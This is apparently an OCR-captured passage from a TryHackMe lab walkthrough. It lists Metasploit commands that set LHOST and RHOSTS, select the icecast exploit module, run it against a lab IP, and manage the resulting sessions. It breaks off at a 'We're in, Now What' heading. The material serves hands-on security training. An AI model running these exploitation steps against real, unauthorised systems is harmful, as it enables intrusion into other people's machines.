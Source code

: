     Command: set LHOST YOUR_IP_ON_TRYHACKME
    We are setting the LHOST ip address 
    
    Answer: Completed. No answer needed
    
Let's go ahead and return to our previous exploit, run the command use icecast to select it again.

    Command: use icecast
    
One last step before we can run our exploit. Run the command set RHOSTS 10.10.192.52 to tell Metasploit which target to attack.

    Command: set RHOSTS 10.10.192.52<The remote IP address of the TRYHACKME machine> 
    We are setting the IPaddress of the remote host
    
Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.

    Command: run -j 
    Command: exploit 
    Answer: No answer needed/Completed
    
Once we've started this, we can check all of the jobs running on the system by running the command jobs

    Command: jobs
    Answer: No answer needed
    
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER
    
    Command: sessions -i SESSION_NUMBER
    Answer: No answer needed 
    
## Task six: We're in, Now What
























